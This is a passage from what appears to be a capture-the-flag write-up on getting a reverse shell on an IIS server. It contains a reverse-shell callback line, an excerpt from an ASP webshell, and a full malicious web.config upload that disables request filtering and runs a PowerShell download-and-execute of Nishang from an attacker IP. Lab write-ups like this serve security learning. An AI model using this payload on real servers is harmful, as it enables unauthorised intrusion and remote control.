 ### Prep

It’s certainly possible to get a webshell, but I’ll notice that the `UploadedFiles` path is being cleared out every few minutes. So I’ll opt to go directly to reverse shell. First, grab a copy of [Nishang’s Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Then add a line at the end to invoke a callback to me:

```

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443

```

Now, since my asp skills are quite low, I started with the asp webshell that comes on kali (`/usr/share/webshells/asp/cmdasp.asp`), and started reading it to determine how code is actually executed. This part seemed most interesting:

```

  ' -- create the COM objects that we will be using -- '
  Set oScript = Server.CreateObject("WSCRIPT.SHELL")
  Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
  Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

  ' -- check for a command that we have posted -- '
  szCMD = Request.Form(".CMD")
  If (szCMD <> "") Then

    ' -- Use a poor man's pipe ... a temp file -- '
    szTempFile = "C:\" & oFileSys.GetTempName( )
    Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
    Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0)

  End If

```

So basically I need a `WSCRIPT.SHELL` COM object, and use it’s Run function to run a command. Ok, so because I only want to run one specific line to download and execute my Nishang shell, this should be simple. Here’s a `web.config` file that will start that process:

```

<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
```